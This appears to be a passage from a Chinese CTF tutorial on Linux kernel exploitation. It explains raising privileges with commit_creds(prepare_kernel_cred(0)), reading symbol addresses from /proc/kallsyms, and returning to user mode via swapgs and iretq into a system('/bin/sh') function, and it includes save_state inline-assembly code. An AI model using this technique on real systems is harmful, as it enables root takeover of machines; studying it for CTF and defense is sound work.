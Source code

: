 在内核里将cred中的uid,gid改成0提升权限,内核里有两个函数很方便prepare_kernel_cred和commit_creds,执行
commit_creds(prepare_kernel_cred(0)) 即可,函数地址从/proc/kallsyms获取。

```
/ $ grep prepare_kernel /proc/kallsyms
ffffffff810a1810 T prepare_kernel_cred
ffffffff81d91890 R __ksymtab_prepare_kernel_cred
ffffffff81dac968 r __kcrctab_prepare_kernel_cred
ffffffff81db9450 r __kstrtab_prepare_kernel_cred
/ $ grep commit_creds /proc/kallsyms
ffffffff810a1420 T commit_creds
ffffffff81d88f60 R __ksymtab_commit_creds
ffffffff81da84d0 r __kcrctab_commit_creds
ffffffff81db948c r __kstrtab_commit_creds
```

以上就是修改权限的过程,但是我们不能一直在内核里面，还要回到用户态，因为一些在用户态很轻易做的事情，在内核中反而变得不太容易。比如，修改文件，创建进程，联网等。
* 返回用户态
返回之前需要设置好 SS,user_stack,EFLAGS,CS,user_function_addr 这5个变量，再执行swapgs和iretq即可。
![](IMG/CTF_kernel_exploit/kernelrop.png)

其中user_stack 指向用户态的栈地址即可,user_function_addr 指向封装system("/bin/sh")的函数地址
另外CS,SS,EFLAGS则需要在用户态事先保存好，如下

```
unsigned long user_cs;
unsigned long user_ss;
unsigned long user_rflags;

static void save_state() {
	asm(
	"movq %%cs, %0\n"
	"movq %%ss, %1\n"
	"pushfq\n"
	"popq %2\n"
	: "=r" (user_cs), "=r" (user_ss), "=r" (user_rflags) : : "memory");
}
```
